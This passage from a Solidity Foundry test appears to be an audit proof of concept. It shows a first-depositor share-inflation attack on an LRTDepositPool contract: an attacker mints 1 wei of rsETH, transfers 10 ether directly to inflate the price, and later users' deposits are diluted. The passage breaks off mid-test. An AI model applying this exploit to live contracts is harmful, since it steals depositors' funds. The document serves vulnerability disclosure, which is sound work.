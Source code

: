 ```solidity
    }
}

contract LRTDepositPoolDepositAsset is LRTDepositPoolTest {
    address public oracle;

    function setUp() public override {
        super.setUp();

        // initialize LRTDepositPool
        lrtDepositPool.initialize(address(lrtConfig));

        // add manager role within LRTConfig
        vm.startPrank(admin);
        lrtConfig.grantRole(LRTConstants.MANAGER, manager);
        vm.stopPrank();

        oracle = lrtConfig.getContract(LRTConstants.LRT_ORACLE);
    }

    function test_InflateThePrice_And_StealFromThem() public {
        // -----------------------PREPARE & ATTACK-----------------
        // Create the attacker and send some money
        address attacker = makeAddr("random");
        rETH.mint(attacker, 100 ether);

        // Attacker mints only 1 wei worth of rsETH
        vm.startPrank(attacker);
        rETH.approve(address(lrtDepositPool), type(uint256).max);
        lrtDepositPool.depositAsset(address(rETH), 1);
        
        // Attacker's rsETH balance is 1
        // rsETH price is 1 ether
        assertEq(rseth.balanceOf(attacker), 1);
        assertEq(LRTOracleMock(oracle).getRSETHPrice(), 1 ether);

        // Attacker directly transfers 10 ether worth of asset to the contract.
        // This will inflate the rsETH price to ((10 ether + 1 wei) / 1 wei) since total deposited asset is 10 ether + 1 wei, and the rsETH supply is 1
        rETH.transfer(address(lrtDepositPool), 10 ether);
        assertEq(LRTOracleMock(oracle).getRSETHPrice(), (10 ether + 1) * 1e18);
        vm.stopPrank();

        //----------------------- NAIVE USERS DEPOSIT TOKENS ----------

        // Users deposit 1 eth separetely (Note: I used the same account for this instead of creating 9 different accounts, but it works as the same. It is just to demonstrate other people seperately depositing funds).
        vm.startPrank(alice);
        rETH.approve(address(lrtDepositPool), type(uint256).max);
        for(uint256 i = 0; i < 9; i++) {
            lrtDepositPool.depositAsset(address(rETH), 1 ether);
        } 
        
        // Total deposits should be 19 ether + 1 wei (Attaker deposited 1 wei, directly transferred 10 ether, other users deposited 9 ether);
        assertEq(lrtDepositPool.getTotalAssetDeposits(address(rETH)), 19 ether + 1);

        uint256 rsEtHBalanceOfAlice = rseth.balanceOf(alice);
        uint256 rsETHPriceAfterUserDeposits = LRTOracleMock(oracle).getRSETHPrice();
        uint256 rsWorthOfAlice_AfterTransferring9Ether = (rsETHPriceAfterUserDeposits * rsEtHBalanceOfAlice) / 1e18;
```